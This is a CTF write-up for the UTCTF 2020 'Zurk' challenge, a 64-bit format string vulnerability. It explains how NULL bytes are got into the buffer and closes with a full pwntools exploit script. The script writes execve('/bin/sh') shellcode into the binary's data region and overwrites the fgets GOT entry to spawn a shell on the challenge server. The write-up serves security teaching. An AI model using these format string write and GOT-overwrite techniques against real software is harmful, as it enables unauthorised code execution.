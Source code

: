 ```yaml
---
layout: post
title: UTCTF 2020 | Zurk Writeup
author: adamt
---
```


# Challenge Desc

Zurk was a binary exploitation challenge in UTCTF 2020 which was a 64 bit format string where the attacker controlled a buffer of isze 50 with a call to fgets() passed directly to printf().

The binary had NX disabled and no PIE. However ASLR was enabled.

```c
checksec ./zurk

Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

The call to fgets() is problematic as fgets() stops reading at a NULL byte. All addresses in 64 bit pages have leading NULL bytes. This means we can not easily pass addresses into our buffer (or pass in multiple addresses as would be needed by a format string attack).


# Thoughts

There are 2 main thoughts to solve this challenge.

1. Overwrite a GOT address to point to system in libc
   a. This is going to be a problem, as our buffer is really small, if we were to write 2 bytes at a time, we would need 4*8=32 characters just for our addresses alone, meaning just 18 characters to do 4 writes with a format string.
2. Overwrite a GOT address to point to our own shellcode in the data region of the binary
   a. This is nicer because we can write out the shellcode over mutliple seperate writes
   b. Since PIE is disabled, the data region starts at 0x600100, this means we only need to write a 4byte address to the GOT, which is half the size of our previous option. We can probably fit this into our buffer as well.

## How do we get addresses into our buffer

So we can't just write addresses into our buffer, because of this whole NULL byte thingo. But reading through the dissassembly of the program, there is this interesting codepath.

```c
mov rdi, buffer
mov rsi, '\n'
call strcspn
mov [ret], 0x0
```

This is replacing the new line in our string with a null byte. We can use this to NULL out the entire buffer by.

1. Write a string of length buffer_size, the last value in our buffer gets set to NULL
2. Write a string of length buffer_size - 1, the second last value is set to NULL
3. continue

Sample code:
```python
 for i in range(0x30, 1, -1):
     send("A" * i)
```

After we do this, we can write our address (since it only has leading NULL bytes).

# Solution

```python
#!/usr/bin/python3
from pwn import *

PROGNAME   = "./zurk"
REMOTEIP   = "binary.utctf.live"
REMOTEPORT = 9003

# execve(/bin/sh)
SHELLCODE = ["\x31\xF6\x56\x48", "\xBB\x2F\x62\x69",
        "\x6E\x2F\x2F\x73", "\x68\x53\x54\x5F",
        "\xF7\xEE\xB0\x3B", "\x0F\x05\x00\x00"]


libc = ELF("./libc-2.23.so")
p = remote(REMOTEIP, REMOTEPORT)
elf = ELF(PROGNAME)

def talk(msg):
    p.sendlineafter("What would you like to do?\n", msg)

    until = " is not a valid instruction.\n"
    return p.recvuntil(until)[:-len(until)]

def leak_addr(addr):
    payload = b"%7$s".ljust(8, b' ')
    leak = talk(payload + p64(addr))

    # Get ride of spaces :P
    leak = leak.replace(b' ', b'\x00')[:8]
    leak = leak.rjust(8, b'\x00')

    return u64(leak)

# In order to write null bytes, we take advantage
# of the program replacing newlines with NULLs
def clear_stack():
    for i in range(0x30, 1, -1):
        print(".", end='')
        talk("A" * i)
    print("")

def do_write_4_bytes(addr, value):
    log.info(f"Writing {hex(value)} -> {hex(addr)}")
    clear_stack()

    value_h = value & 0xFFFFFFFF
    value_h1 = value_h >> 16
    value_h2 = value_h & 0xFFFF

    talk(p64(addr).rjust(48, b' '))
    talk(p64(addr + 2).rjust(32, b' ')) + b'a'

    payload = f"%{value_h1}c%9$hn"
    talk(payload)
    payload = f"%{value_h2}c%11$hn"
    talk(payload)

def do_write_8_bytes(addr, value):
    log.info(f"Writing {hex(value)} -> {hex(addr)}")
    clear_stack()


    talk(p64(addr).rjust(48, b' '))
    talk(p64(addr + 4).rjust(32, b' ')) + b'a'

    payload = f"%9$n%{value}c%11$n"
    talk(payload)



# put our shellcode at 0x601500
ADDR = 0x60110B  # Dont start at 00, we dont want 0x0a in our addr
do_write_4_bytes(ADDR + 4, u32(SHELLCODE[1]))
do_write_4_bytes(ADDR + 8, u32(SHELLCODE[2]))
do_write_4_bytes(ADDR + 12, u32(SHELLCODE[3]))
do_write_4_bytes(ADDR + 16, u32(SHELLCODE[4]))
do_write_4_bytes(ADDR + 20, u32(SHELLCODE[5]))
do_write_4_bytes(ADDR, u32(SHELLCODE[0]))

do_write_8_bytes(elf.got["fgets"], ADDR)

p.interactive()

```
